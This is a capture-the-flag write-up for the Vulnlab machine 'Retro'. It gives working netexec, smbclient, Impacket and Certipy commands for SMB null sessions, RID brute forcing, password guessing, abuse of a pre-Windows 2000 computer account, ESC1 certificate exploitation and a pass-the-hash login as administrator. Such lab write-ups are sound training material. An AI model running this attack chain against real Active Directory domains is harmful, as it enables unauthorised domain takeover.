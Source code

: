 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Retro/logo.png
date: 2024-06-22 09:45:47 +07:00
modified: 2024-06-22 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: r0BIT
  link: https://www.linkedin.com/in/robin-unglaub/
tags: [SMB, null session, RID brute forcing, password guessing, simple passwords, Windows shares, Pre-Windows 2000 Computers, credential change, Impacket, ESC1, Active Directory Certificate Services, Certipy, Kerberos, TGT request]
title: Retro - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize credential brute forcing to discover simple passwords, and employ Impacket and Certipy to change credentials and exploit an ESC1 vulnerability for privilege escalation. The final step involved obtaining a TGT for the administrator to capture the root flag.


# Enumeration
The Nmap scan shows the following ports.

```Bash
PORT      STATE SERVICE
53/tcp    open  domain 
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc
139/tcp   open  netbios-ssn  
389/tcp   open  ldap
445/tcp   open  microsoft-ds 
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
```

Guest login is enabled in the machine and I can see the shares using a username and null password.
`netexec smb ip -u 'sz' -p '' --shares`

![](https://photos.squarezero.dev/file/abir-images/Retro/0.png)

I also used rid brute force to get users into the system.
`netexec smb ip -u 'sz' -p '' --rid-brute`

![](https://photos.squarezero.dev/file/abir-images/Retro/1.png)

# Password Guessing

In the Trainees shares there is a text file where it talks about making an simple password for trainees.

`smbclient "//10.10.81.244/Trainees" -U "sz" --password=''`

```
Dear Trainees,     
I know that some of you seemed to struggle with remembering strong and unique passwords. 
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.                                                                                                                                                      
                                                    
Regards                                                                                                                                                                                                                                                                                            
The Admins
```

Using the usernames earlier I can tried bruteforce with usernames as password and got **trainees:trainees** valid

`netexec smb 10.10.81.244 -u user.txt -p user.txt -no-bruteforce`

![](https://photos.squarezero.dev/file/abir-images/Retro/2.png)

# Pre-Windows 2000 Computers

I explored Notes share with trainee credentials and found another notes where it talked about **Pre Created Computer Account**
`smbclient "//10.10.81.244/Notes" -U "trainee" --password='trainee'`

![](https://photos.squarezero.dev/file/abir-images/Retro/3.png)

```
Thomas,
       
after convincing the finance department to get rid of their ancienct banking software 
it is finally time to clean up the mess they made. We should start with the pre created computer account. That one is older than me.
       
Best   
James
```

After researching for a little bit I found this 2 article where it talked about how I can change the credentials of **Pre-Windows 2000 Computers**.

[The Hacker Recipes](https://www.thehacker.recipes/ad/movement/domain-settings/pre-windows-2000-computers)
[Trustedsec](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)

![](https://photos.squarezero.dev/file/abir-images/Retro/4.png)

As this is a financial department I used previously found user **banking** and got ***NT_STATUS_RESOURCE_NAME_NOT_FOUND*** which confirms its vulnerable.

`smbclient -W retro.vl -U "banking" --password='banking' -L retro.vl`

![](https://photos.squarezero.dev/file/abir-images/Retro/5.png)

I also verified it with Netexec.

![](https://photos.squarezero.dev/file/abir-images/Retro/6.png)

Next, I used Impacket to change the credentials and also create alternative credentials.

`impacket-changepasswd retro.vl/banking$:banking@10.10.105.52 -newpass Password123 -altuser trainee -altpass trainee`

![](https://photos.squarezero.dev/file/abir-images/Retro/7.png)


# ESC1

Using the new credential I enumerated ADCS and the machine was vulnerable to ESC1 attack.

`certipy find -u 'banking$' -p 'Password123' -dc-ip 10.10.105.52 -enabled -vulnerable -stdout`


```bash
Certificate Templates                   
  0                                     
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA 
    Enabled                             : True        
    Client Authentication               : True        
    Enrollment Agent                    : False       
    Any Purpose                         : False       
    Enrollee Supplies Subject           : True        
    Certificate Name Flag               : EnrolleeSuppliesSubject  
    Enrollment Flag                     : None        
    Private Key Flag                    : 16842752    
    Extended Key Usage                  : Client Authentication 
    Requires Manager Approval           : False       
    Requires Key Archival               : False       
    Authorized Signatures Required      : 0           
    Validity Period                     : 1 year      
    Renewal Period                      : 6 weeks     
    Minimum RSA Key Length              : 4096        
    Permissions                         
      Enrollment Permissions            
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions        
        Owner                           : RETRO.VL\Administrator
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Property Principals       : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
    [!] Vulnerabilities                 
      ESC1
```

Using Certipy I requested .pfx key using the vulnerable template. Because of the ***Key Size*** error, I specified the key-size

`certipy req -u 'banking$'@retro.vl -p 'Password123' -dc-ip 10.10.105.52 -ca retro-DC-CA -template RetroClients -upn ADMINISTRATOR@retro.VL -key-size 4096`

![](https://photos.squarezero.dev/file/abir-images/Retro/8.png)

Next, Using the pfx key I requested TGT of the administrator.

`certipy auth -pfx administrator.pfx -username Administrator -domain retro.vl -dc-ip 10.10.105.52`

![](https://photos.squarezero.dev/file/abir-images/Retro/9.png)

Using the TGT I can now login to the machine and get the flag.
`wmiexec.py administrator@10.10.105.52 -hashes <.....redacted......>`

![](https://photos.squarezero.dev/file/abir-images/Retro/10.png)



